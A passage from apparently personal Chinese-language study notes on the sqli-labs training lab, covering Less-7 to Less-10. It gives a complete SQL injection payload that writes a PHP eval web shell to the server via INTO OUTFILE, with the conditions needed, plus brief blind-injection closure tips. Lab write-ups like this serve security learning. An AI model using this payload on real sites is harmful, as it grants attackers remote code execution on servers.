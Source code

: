 <img src="图片\Snipaste_2023-01-22_18-28-33.png" alt="Snipaste_2023-01-22_18-28-33" style="zoom: 80%;" />

sql 注入时写 shell 时条件，root 权限，配置里 secure_file_priv=""，写 shell 的目录有写入与执行权限

```
?id=-1')) union select 1,"<?php @eval($_POST['cmd']); ?>",3 into outfile "D:\\phpstudy\\WWW\\sqli-labs\\Less-7\\shell.php" --+
```

成功写入 shell

<img src="图片\Snipaste_2023-01-22_18-37-07.png" alt="Snipaste_2023-01-22_18-37-07" style="zoom:67%;" />

## Less-8~10

思路与第五关 Less-5 时一致，都是盲注，还是得先闭合 sql 语句，用 ' " ') ")) 等之类的闭合

## Less-11
